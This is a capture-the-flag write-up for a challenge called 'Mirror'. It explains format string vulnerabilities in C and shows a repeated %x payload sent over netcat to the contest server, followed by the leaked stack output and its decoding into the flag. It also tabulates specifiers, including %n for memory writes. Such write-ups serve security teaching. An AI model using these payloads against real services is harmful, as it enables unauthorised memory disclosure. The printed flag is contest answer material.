



# Challenge Name - Mirror

## Challenge Description

The program prints exactly what we input.  

**Connection**: `nc codefest-ctf.iitbhu.tech 57917`

## Approach
The challenge hints at a **Format String Vulnerability** in a C program. When user input is directly passed to functions like `printf` without proper formatting, attackers can exploit this to read or write arbitrary memory locations. The goal is to leak the flag from the program's memory using this vulnerability.

### What is a Format String Vulnerability?
In C, functions like `printf` use format specifiers (e.g., `%d`, `%s`, `%x`) to determine how to print data. If a program passes user-controlled input directly to `printf` without validation, an attacker can inject format specifiers to:
- Read values from the stack (`%x`, `%p`, `%s`).
- Write to arbitrary memory addresses (`%n`).

For example, sending `%x` repeatedly forces the program to print values from the stack in hexadecimal format. These values may include memory addresses, return addresses, or even parts of the flag stored in memory.

| Parameter | Output                                 | Passed as | Use Case in Exploitation                                                          |
| --------- | -------------------------------------- | --------- | --------------------------------------------------------------------------------- |
| `%%`      | Literal `%` character                  | -         | Escapes a `%` symbol (e.g., `%%n` prints `%n`)                                    |
| `%p`      | Pointer address (void*)                | Reference | Leak memory addresses from the stack                                              |
| `%d`      | Signed decimal integer                 | Value     | Read integers from the stack                                                      |
| `%c`      | Character                              | Value     | Read ASCII characters from the stack                                              |
| `%u`      | Unsigned decimal integer               | Value     | Read unsigned integers from the stack                                             |
| `%x`      | Hexadecimal value (lowercase)          | Value     | **Most common**: Leak hex values from the stack (as seen in the Mirror challenge) |
| `%s`      | String                                 | Reference | Read string from a memory address (crash if invalid!)                             |
| `%n`      | **Write** number of bytes to a pointer | Reference | Dangerous: Overwrite memory (e.g., modify return addresses)                       |

For more info, read here - [Format String Exploit](https://github.com/HackTricks-wiki/hacktricks/tree/master/src/binary-exploitation/format-strings)

---

## Step-by-Step Explanation

### Step 1: Trigger the Vulnerability
We start by connecting to the service and sending a payload of `%x` separated by dots. Each `%x` will print a 4-byte value from the stack in hexadecimal.

```bash
┌──(kali㉿kali)-[~/Desktop/tmp]
└─$ nc codefest-ctf.iitbhu.tech 57917


 ███╗   ███╗██╗██████╗ ██████╗  ██████╗ ██████╗ 
 ████╗ ████║██║██╔══██╗██╔══██╗██╔═══██╗██╔══██╗
 ██╔████╔██║██║██████╔╝██████╔╝██║   ██║██████╔╝
 ██║╚██╔╝██║██║██╔══██╗██╔══██╗██║   ██║██╔══██╗
 ██║ ╚═╝ ██║██║██║  ██║██║  ██║╚██████╔╝██║  ██║
 ╚═╝     ╚═╝╚═╝╚═╝  ╚═╝╚═╝  ╚═╝ ╚═════╝ ╚═╝  ╚═╝

Enter whatever you want, and it will spit it out exactly the same!
```

**Payload Sent**:
```
%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.
```

**Output**:
```
64.f3e2f580.64f032ce.afff.f63d4e2e.65646f43.74736566.7b465443.6d723066.355f7434.6e317237.336c5f67.315f6b34.68625553.7d514570.a.1.252e7825.78252e78...
```



### Step 2: Identify Relevant Hex Values
From the output, we focus on the hex values that appear meaningful. In this case, the following chunks stand out:
```
65646f43.74736566.7b465443.6d723066.355f7434.6e317237.336c5f67.315f6b34.68625553.7d514570
```

 

### Step 3: Decode Hex to ASCII
Each 8-character hex chunk represents 4 bytes of data stored in **little-endian** format (reverse order). To decode:
1. Split the hex string into pairs of two characters (bytes).
2. Reverse the order of the pairs.
3. Convert each pair to its ASCII equivalent.

**Example**:
- Take `65646f43`:
  - Split into pairs: `65`, `64`, `6f`, `43`.
  - Reverse order: `43`, `6f`, `64`, `65`.
  - Convert to ASCII: `C`, `o`, `d`, `e` → **"Code"**.

### Step 4: Process All Chunks
Repeat the process for all hex values:

| Hex Chunk | Reversed Bytes | ASCII Decoded |
| --------- | -------------- | ------------- |
| 65646f43  | 43 6f 64 65    | Code          |
| 74736566  | 66 65 73 74    | fest          |
| 7b465443  | 43 54 46 7b    | CTF{          |
| 6d723066  | 66 30 72 6d    | f0rm          |
| 355f7434  | 34 74 5f 35    | 4t_5          |
| 6e317237  | 37 72 31 6e    | 7r1n          |
| 336c5f67  | 67 5f 6c 33    | g_l3          |
| 315f6b34  | 34 6b 5f 31    | 4k_1          |
| 68625553  | 53 55 62 68    | SUbh          |
| 7d514570  | 70 45 51 7d    | pEQ}          |

OR

If you can't manually, Just use the `Swap Endianess` recipe on Cyberchef with word length as 4 becuase we have 4 characters between each `.` 



### Step 5: Combine the Results
Concatenating all decoded parts gives the flag:
```
CodefestCTF{f0rm4t_57r1ng_l34k_1SUbhpEQ}
```
---

## Flag
`CodefestCTF{f0rm4t_57r1ng_l34k_1SUbhpEQ}`

---


